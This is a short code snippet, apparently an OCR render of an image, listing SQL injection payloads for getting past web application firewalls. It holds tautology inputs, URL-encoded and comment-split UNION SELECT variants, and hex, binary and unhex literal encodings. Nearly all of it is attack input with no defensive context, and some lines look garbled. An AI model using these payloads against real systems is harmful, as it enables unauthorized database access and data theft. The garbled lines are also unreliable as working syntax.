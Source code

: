 ```
1 or 2121   
1' or 12 rlike '1`

`%55nion(%53elect)   
union%20distinct%20select   
union%20%64istinctRO%57%20select   
union%2053elect   
%23?%0auion%20?%23?%0aselect   
%23?zen?%0Aunion all%23zen%0A%23Zen%0Aselect   
%55nion %53eLEct   
u%6eion se%6cect   
unio%6e %73elect   
unio%6e%20%64istinc%74%20%73elect   
uni%6fn distinct%52OW s%65lect   
%75%6e%6f%69%6e %61%6c%6c %73%65%6c%65%63%74`

@ **Normal Hex**  
`select 0x313131`   
**Hexed Bypass Version**   
`select x'313131';`   
**Binary Bypass**   
`select 0b011110100110010101101110;`   
**Bypass using functions**   
`select unhex(x'333133313331');`
```